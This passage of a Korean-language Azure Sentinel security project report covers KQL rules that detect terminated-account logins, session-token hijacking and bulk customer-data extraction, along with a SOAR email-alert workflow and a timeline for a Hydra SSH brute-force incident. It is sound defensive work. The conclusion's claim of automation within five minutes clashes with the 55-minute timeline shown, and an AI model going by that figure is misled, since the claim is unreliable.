|:---:|:---|:---:|
| **비활성 계정 접근** | 퇴사자 또는 장기 미사용 계정의 갑작스러운 로그인 시도 | **T1078** (Valid Accounts) |
| **토큰 재사용** | 동일한 인증 토큰이 지리적/논리적으로 불가능한 위치에서 동시 사용 | **T1550** (Use Alternate Auth Material) |
| **데이터 유출** | 업무 외 시간에 대량의 고객 정보(DB) 조회 및 반출 시도 | **T1530** (Data from Cloud Storage) |

#### 5.3.2 KQL 기반 탐지 규칙

**규칙 1: 비활성/종료 계정의 비정상 로그인**

HR 데이터베이스와 연동하여 퇴사자 또는 휴면 계정의 인증 로그가 발생할 경우 즉시 경보를 생성합니다.

```csharp
let TerminatedUsers = datatable(username:string, termination_date:datetime) [
    "ex-admin@04www.cloud", datetime(2025-11-01),
    "ex-dev@04www.cloud", datetime(2025-11-15)
];

Syslog
| where TimeGenerated > ago(1h)
| where SyslogMessage has_any ("Accepted password", "session opened")
| extend User = extract(@"user\s*[=:]\s*(\S+)", 1, SyslogMessage)
| join kind=inner (TerminatedUsers) on $left.User == $right.username
| where TimeGenerated > termination_date
| project TimeGenerated, User, Computer, termination_date, 
          DaysAfterTermination = datetime_diff('day', TimeGenerated, termination_date)
```


**규칙 2: 토큰 복제 및 세션 하이재킹 탐지**

동일한 세션 토큰이 서로 다른 IP 대역에서 동시에 사용되는 패턴을 분석하여 토큰 탈취를 탐지합니다.

```csharp
AzureDiagnostics
| where Category == "ApplicationGatewayAccessLog"
| where requestUri_s contains "admin.php"
| extend TokenHash = hash_md5(tostring(parse_json(requestHeaders_s)["Cookie"]))
| summarize 
    DistinctIPs = dcount(clientIP_s),
    IPs = make_set(clientIP_s),
    RequestCount = count()
    by TokenHash, bin(TimeGenerated, 10m)
| where DistinctIPs > 1 // 단일 토큰이 다수 IP에서 발견됨
| project TimeGenerated, TokenHash, DistinctIPs, IPs, RequestCount
```


**규칙 3: 대량 데이터 조회 탐지**
```csharp
// 단시간 내 대량의 고객 정보 조회
Syslog
| where ProcessName == "mysqld" or SyslogMessage contains "SELECT"
| where SyslogMessage has_any ("users", "orders", "personal_info")
| extend User = extract(@"user\s*[=:]\s*(\S+)", 1, SyslogMessage)
| summarize 
    QueryCount = count(),
    TablesAccessed = make_set(extract(@"FROM\s+(\w+)", 1, SyslogMessage))
    by User, Computer, bin(TimeGenerated, 5m)
| where QueryCount > 50
| project TimeGenerated, User, Computer, QueryCount, TablesAccessed
```

#### 5.3.3 대응 자동화

탐지된 위협에 대해 즉각적인 차단을 수행하는 자동화 워크플로우를 구성했습니다.

**1) Sentinel Automation Rule 기반 자동화**
Terraform으로 배포된 자동화 규칙:
*   **Trigger:** High Severity 인시던트 생성
*   **Action 1:** 인시던트 소유자 자동 할당 (보안팀)
*   **Action 2:** 인시던트 태그 자동 추가 (`auto-response`, `high-priority`)
*   **Action 3:** Logic App 트리거 (이메일 알림 발송)
    *   *Azure 구독 제한으로 인해 실제 구현은 이메일 발송에 초점을 맞춤*


#### 5.4.5 대응 결과 및 교훈

| 단계 | 소요 시간 | 조치 내용 |
|------|----------|----------|
| **탐지** | 15분 | Sentinel 분석 규칙이 퇴사자 계정 로그인 감지 |
| **알림** | 즉시 | Logic App에서 Office 365 이메일 발송 |
| **대응** | 10분 | NSG IP 차단 + Key Vault 서명키 회전 수행 |
| **조사** | 30분 | Investigation Graph로 유출 범위 확인 |
| **완료** | 55분 | 인시던트 종결 및 보고서 작성 |

**교훈 및 개선점:**
1. **퇴직자 프로세스 강화:** HR 시스템과 Entra ID 연동하여 퇴사 즉시 계정 비활성화
2. **서명키 자동 회전:** Key Vault Rotation Policy로 90일마다 자동 갱신
3. **세션 검증 추가:** DB 기반 토큰 유효성 검증 로직 구현 필요
4. **UEBA 도입:** 사용자 행동 기준선(Baseline) 학습 및 이상 탐지 고도화

---

## 6. 보안 사고 대응 및 자동화 (SOAR)

### 6.1 보안 자동화 아키텍처 (SOAR Workflow)

Azure Sentinel의 Automation Rule과 Logic App을 결합하여, 위협 탐지부터 알림 및 대응까지의 과정을 자동화했습니다.

**통합 대응 워크플로우:**



**구성 요소:**
1.  **Automation Rule:** 인시던트 발생 시 소유자 할당, 태그 추가, Logic App 트리거.
2.  **Logic App:** Office 365와 연동하여 상세 침해 정보를 보안팀에게 이메일로 전송.


**수신 알림 이메일:**


### 6.2 보안 사고 조사 및 종결

**사고 대응 타임라인:**

```
14:00:00 ┃ 🔴 공격 개시
         ┃   └─ 공격자가 Hydra 툴로 SSH Brute Force 시작
         │
14:15:00 ┃ 🔍 탐지
         ┃   └─ Sentinel이 'Failed password' 패턴 급증 감지
         │
14:15:00 ┃ 📋 분석
         ┃   └─ 인시던트 자동 생성, 엔티티(IP, Host) 매핑
         │
14:15:00 ┃ 📧 알림
         ┃   └─ 보안 담당자 이메일 발송
         │
14:25:00 ┃ 🛡️ 대응
         ┃   └─ NSG 차단, Key Vault 회전, 계정 잠금 수행
         │
14:55:00 ┃ ✅ 종결
         ┃   └─ 인시던트 상태 'Closed'로 변경
         
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
총 대응 시간: 55분 (골든 타임 내 대응 완료)
```


### 6.3 위협 인텔리전스 보고서

**현재 상태:** TI 데이터 커넥터 미연결로 인해 실제 TI 지표 수집 및 매칭 검증은 수행하지 못했습니다.

**TI 지표 조회 쿼리 (예시):**
```kusto
ThreatIntelligenceIndicator
| where TimeGenerated > ago(30d)
| summarize 
    TotalIndicators = count(),
    MaliciousIPs = countif(ThreatType == "malicious-ip"),
    Malware = countif(ThreatType == "malware"),
    C2 = countif(ThreatType == "c2")
```

TI 커넥터 연결 시, 위 쿼리로 수집된 위협 지표를 확인하고 방화벽 로그와 교차 분석할 수 있습니다.

---

## 7. 결론

본 **행위기반 보안탐지 및 대응 검증**을 통해, 다음 역량이 확보되었음을 확인했습니다:

| 영역 | 검증 결과 |
|:---|:---|
| **Defender for Cloud** | 클라우드 인프라(VM, SQL, Storage) 위협 탐지 및 권장 사항 제공 |
| **KQL** | 복잡한 위협 헌팅 쿼리 작성 및 다중 테이블 상관관계 분석 |
| **Sentinel** | SSH Brute Force, 권한 상승, WAF 공격, Firewall Deny 등 다양한 위협 탐지 |
| **SOAR** | 5분 이내 탐지→알림→대응 자동화 파이프라인 구축 |

이번 프로젝트를 통해 **탐지(Detection)부터 대응(Response)까지의 전체 보안 관제 사이클**을 성공적으로 구축하였으며, 향후 고도화된 위협 시나리오에도 즉각 대응할 수 있는 기반을 마련했습니다.

---
